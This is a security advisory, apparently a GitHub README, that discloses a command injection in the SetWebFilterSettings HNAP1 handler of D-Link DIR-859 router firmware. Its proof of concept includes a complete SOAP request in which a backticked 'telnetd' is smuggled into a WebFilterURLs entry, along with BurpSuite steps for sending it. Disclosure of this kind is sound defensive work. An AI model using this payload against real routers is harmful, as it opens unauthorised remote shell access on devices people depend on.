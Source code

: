 # DIR-859 SetWebFilterSettings CMD Injection
Vulnerability for D-Link Router

Product: D-Link DIR-859  (Refer: http://www.dlink.com.cn/home/product?id=2960)

Version: The latest firmware -- 1.06B01 (Download link: https://support.dlink.com/productinfo.aspx?m=DIR-859)

![image](3.PNG)

Vulnerability Type: Command Injection

Author: David Chen

Institution: Technology Research Institute of Legendsec at Qi'anxin Group

Vulnerability description
-------------------------
An issue was discovered on D-Link DIR-859 devices with the latest firmware version 1.06B01. A command Injection vulnerability allows attackers to execute arbitrary OS commands via shell metacharacters in a crafted /HNAP1 request. This occurs when the SetWebFilterSettings function calls the system function with an untrusted input parameter named WebFilterURLs. Consequently, an attacker can execute any command remotely when they control this input.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetWebFilterSettings>
 <WebFilterMethod>DENY</WebFilterMethod>
 <NumberOfEntry>2</NumberOfEntry>
 <WebFilterURLs>
  <string>www.baidu.com</string>
 <string>www.shohu.com`telnetd`</string></WebFilterURLs>
</SetWebFilterSettings>
</soap:Body>
</soap:Envelope>
```

The "WebFilterURLs" parameter is a string formed as bleow:

```xml
<string>www.baidu.com</string>
<string>www.sohu.com`telnetd`</string>
```
So if someone can POST data like this, they will execute command "telnetd" at the router.

POC
-------------------------

Step1: Attacker need to call "SetWebFilterSettings" fuction that setting "WebFilterURLs" value, so to add URLs at the web page as below:

![image](5.jpg)


Step2: To modify the "WebFilterURLs" value, Attacker need to intercpet the POST action at BurpSuite after they type "Save" button, and insert command "telnetd" to the parameter as below:

![image](1.png)

Step3: After sending POST packet as above, this action can result in a RCE that executes a "telnetd" command at router as below:

![image](4.png)

P.S. Given the vendor's security, we only provide parts of this exploit.